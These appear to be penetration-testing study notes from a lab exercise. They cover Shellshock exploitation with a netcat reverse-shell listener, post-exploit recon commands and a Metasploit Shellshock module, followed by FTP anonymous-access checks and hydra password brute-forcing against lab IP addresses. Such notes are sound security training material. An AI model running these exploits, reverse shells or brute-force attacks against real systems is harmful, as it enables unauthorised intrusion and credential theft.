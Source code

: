 Can now use this to setup a <r>Reverse Shell</r>
+ Will first set up a kali <b>listener</b> 
  + Example `nc -nvlp 1234`
+ Then will send the following:

![](Images/ShellshockManualReverseShell.png)

Can do things such as 
  + `whoami`
  + see distribution with `cat /etc/*issue`
  + Kernel info with `uname -a`

Can automate this process with <r>msfconsole</r>
+ can `search shellshock`
+ `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
+ `set RHOSTS 192.45.16.3`
+ specify the path to the `.cgi` script with `set TARGETURI /gettime.cgi`
+ After running it, will have a meterpreter session 

### Exploiting FTP ###

#### Exploiting FTP ####
+ `FTP` (File Transfer Protocol) uses TCP port 21 and is used to facilitate file sharing between a server and clients
+ Frequently used as a means of transferring files to and from the director of a web server 
+ FTP authentication requires a username and password combination. So we can brute-force attack on the FTP server in order to identify legitimate credentials
+ In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access the Ftp server without providing any legitimate credentials

Can check for `anonymous` access with the following ways 
+ `ftp TARGET_IP` and then put `anonymous` for the user name, skip the password (enter)
+ or use an <o>nmap script</o> specifically:  <o>--script=ftp-anon</o>
  + Note can look for nmap scripts with `ls -al /usr/share/nmap/scripts/ | grep ftp-*`

Can also brute-force with <pu>hydra</pu>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.27.30.3 -t 4 ftp`
  + `-L` specifies user list
  + `-P` specifies password list
  + `-t` specifies numbers of threads 
  + `ftp` is used to specify the service
